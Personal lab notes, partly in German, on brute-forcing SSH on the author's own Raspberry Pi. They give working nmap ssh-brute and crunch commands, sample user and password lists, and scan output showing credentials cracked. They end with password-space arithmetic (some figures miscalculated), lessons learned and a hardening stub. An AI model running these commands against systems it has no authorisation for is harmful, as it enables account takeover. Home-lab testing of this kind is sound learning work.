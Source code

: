 # Brute Force Attack Raspberry Pi

## Ideas

- write a Python Script to generate passwords
- download a top XX list of the most common passwords
- use a tool to generate passwords

## Questions

- how long does it take to try 100/1000/10.000/1.000.000 passwords?
-

## User NMAP for brute force attack

```
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt --script-args unpwdb.timelimit=0 192.168.0.217
```

## Check if Port 22 is open

```
nmap -p 22 -open <RASPBERRY-PI-IP-ADDRESS>
```

## Create User File

users.txt:

```
user
admin
root
pi
```

## Create Password File

passwords.txt:

```
123456
root
admin
pi
passwort
```

## Generate Password File with Crunch

```
brew install crunch
```

Create file with generated passwords between 3 and 6 characters:

```
crunch 3 6 0123456789abcdef -o 6chars.txt
```

Run brute force attack:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt <RASPBERRY-PI-IP-ADDRESS>
```

Ergebnis:

```
nmap -p 22 --script ssh-brute --script-args userdb=u.txt,passdb=p.txt 192.168.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 16:23 CET
NSE: [ssh-brute] Trying username/password pair: foo:foo
NSE: [ssh-brute] Trying username/password pair: barz:barz
NSE: [ssh-brute] Trying username/password pair: leo:leo
foo
NSE: [ssh-brute] Trying username/password pair: foo:hi
hi
NSE: [ssh-brute] Trying username/password pair: barz:hi
NSE: [ssh-brute] Trying username/password pair: leo:hi
NSE: [ssh-brute] Trying username/password pair: foo:for
NSE: [ssh-brute] Trying username/password pair: barz:for
NSE: [ssh-brute] Trying username/password pair: leo:for
NSE: [ssh-brute] Trying username/password pair: foo:1234
NSE: [ssh-brute] Trying username/password pair: barz:1234
NSE: [ssh-brute] Trying username/password pair: leo:1234
Nmap scan report for raspberrypi (192.168.0.217)
Host is up (0.013s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     leo:1234 - Valid credentials
|_  Statistics: Performed 12 guesses in 9 seconds, average tps: 1.3

Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

NMAP with no time limit:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt,unpwdb.timelimit=0 192.168.0.217
```

http://blog.wenzlaff.de/?p=16896

Anzahl Möglichkeiten:

- a-z: 26^4 = 456972
- a-z & A-Z 52^4 = 7311616
- a-z & A-Z & 0-9 = 13845841

## Combinatorics

Why is the math behind this important?

- characters: 1 / character-set: 0-9 = 10 possible passwords
- characters: 2 / character-set: 0-9 = 10^2 = 100 possible passwords (100 pw attempts / min. = 1 min.)
- characters: 3 / character-set: 0-9 = 10^3 = 1.000 possible passwords (100 pw attempts / min. = 10 min.)
- characters: 4 / character-set: 0-9 = 10^4 = 10.000 possible passwords (100 pw attempts / min. = 100 min. ~ 1,5h)
- characters: 5 / character-set: 0-9 = 10^5 = 100.000 possible passwords (100 pw attempts / min. = 6.000 pw attempts / h = 48.000 / day ~ 2 days)
- characters: 6 / character-set: 0-9 = 10^6 = 1.000.000 possible passwords (100 pw attempts / min. = 6.000 pw attemtps / h = 48.000 / day ~ 20 days)
- ...
- characters: 6 / character-set: a-z A-Z 0-9 = (26+26+10)^6 = 62^6 = 56.800.235.584 possible passwords (100 pw attemps / min. = 6.000 pw attempts / h = 48k / day = 17.520.000 / year ~ 3242 years)

Function to calculate the possible password combinations:

````
<CHARACTER-SET> ^ <NUMBER-OF-CHARACTERS>
````

Further reading: https://www.scientificamerican.com/article/the-mathematics-of-hacking-passwords/

# Lessons Learned
  
- Brute force attacks do not scale if the password and the used alphabet have a sufficient size
- Trying all username/password combinations will make the problem harder to solve -> this is why not exposing the information if a username is known is a good thing
- Don't try stupid things before doing the math
  
# Harden Raspberry Pi

## Firewall

### Install

https://www.blog.berrybase.de/blog/2022/02/23/den-raspberry-pi-absichern/#:~:text=Linux%20hat%20hierf%C3%BCr%20die%20Firewall,Befehl%20aus%20Code%2016%20installieren

